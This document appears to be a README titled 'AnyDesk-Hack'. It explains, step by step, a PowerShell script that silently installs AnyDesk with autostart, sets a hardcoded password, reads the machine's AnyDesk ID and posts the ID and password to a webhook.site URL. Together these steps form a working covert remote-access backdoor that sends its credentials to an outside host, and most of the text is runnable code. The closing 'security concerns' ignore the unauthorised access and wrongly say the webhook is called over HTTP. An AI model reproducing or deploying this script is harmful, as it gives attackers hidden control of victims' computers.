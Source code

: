 # AnyDesk-Hack
This PowerShell script automates the download, installation, and configuration of AnyDesk, a remote desktop software, and then sends the AnyDesk ID and password to a webhook URL. Below is a detailed explanation of each part of the script

1. Download AnyDesk Executable
powershell
Copy
$url = "https://download.anydesk.com/AnyDesk.exe"
$outputPath = "C:\AnyDesk.exe"

Invoke-WebRequest -Uri $url -OutFile $outputPath
Purpose: Downloads the AnyDesk executable from the specified URL and saves it to C:\AnyDesk.exe.

Explanation:

$url: The URL of the AnyDesk executable.

$outputPath: The local path where the downloaded file will be saved.

Invoke-WebRequest: A PowerShell cmdlet used to send HTTP requests. Here, it downloads the file.

2. Install AnyDesk Silently
powershell
Copy
C:\AnyDesk.exe --install "C:\Program Files (x86)\AnyDesk" --start-with-win --silent
Purpose: Installs AnyDesk silently (without user interaction) to the specified directory and configures it to start with Windows.

Explanation:

--install: Specifies the installation directory (C:\Program Files (x86)\AnyDesk).

--start-with-win: Configures AnyDesk to start automatically when Windows starts.

--silent: Performs the installation without showing any user interface.

3. Wait for Installation to Complete
powershell
Copy
Start-Sleep -Seconds 5
Purpose: Pauses the script for 5 seconds to allow the installation to complete.

Explanation:

Start-Sleep: A PowerShell cmdlet that pauses the script for a specified number of seconds.

4. Set AnyDesk Password
powershell
Copy
cmd /c 'echo Aa123456! | "C:\Program Files (x86)\AnyDesk\AnyDesk.exe" --set-password'
Purpose: Sets the AnyDesk password to Aa123456!.

Explanation:

cmd /c: Executes a command in the command prompt and then terminates.

echo Aa123456!: Outputs the password (Aa123456!) and pipes it to the AnyDesk executable.

--set-password: A command-line argument for AnyDesk to set the password.

5. Retrieve AnyDesk ID
powershell
Copy
Start-Process -FilePath "C:\Program Files (x86)\AnyDesk\AnyDesk.exe" -ArgumentList "--get-id" -RedirectStandardOutput "C:\Program Files (x86)\AnyDesk\AnyDesk_Output.txt" -NoNewWindow -Wait

$ID = Get-Content -Path "C:\Program Files (x86)\AnyDesk\AnyDesk_Output.txt" | ForEach-Object { $_.Trim() }
Purpose: Retrieves the AnyDesk ID and saves it to a variable.

Explanation:

Start-Process: Launches the AnyDesk executable with the --get-id argument to retrieve the AnyDesk ID.

-RedirectStandardOutput: Redirects the output of the command to a text file (AnyDesk_Output.txt).

-NoNewWindow: Ensures the command runs in the same window.

-Wait: Waits for the process to complete before continuing.

Get-Content: Reads the contents of the output file.

ForEach-Object { $_.Trim() }: Trims any extra spaces or newlines from the retrieved AnyDesk ID.

6. Send AnyDesk ID and Password to Webhook
powershell
Copy
$webhookUrl = "https://webhook.site/faa03760-2397-4f6a-b086-dfe52612c830"

Invoke-WebRequest -Uri $webhookUrl -Method Post -Body "AnyDesk ID is: $ID AND Password is: Aa123456!"
Purpose: Sends the AnyDesk ID and password to a webhook URL.

Explanation:

$webhookUrl: The URL of the webhook where the data will be sent.

Invoke-WebRequest: Sends an HTTP POST request to the webhook URL with the AnyDesk ID and password in the body.

Summary
This script:

Downloads the AnyDesk executable.

Installs AnyDesk silently.

Sets a password for AnyDesk.

Retrieves the AnyDesk ID.

Sends the AnyDesk ID and password to a webhook.

Security Concerns
Hardcoded Password: The password (Aa123456!) is hardcoded in the script, which is insecure.

Webhook URL: The webhook URL is exposed, which could lead to unauthorized access if the script is shared.

Sensitive Data: Sending sensitive information (like the AnyDesk ID and password) over HTTP (not HTTPS) is insecure.
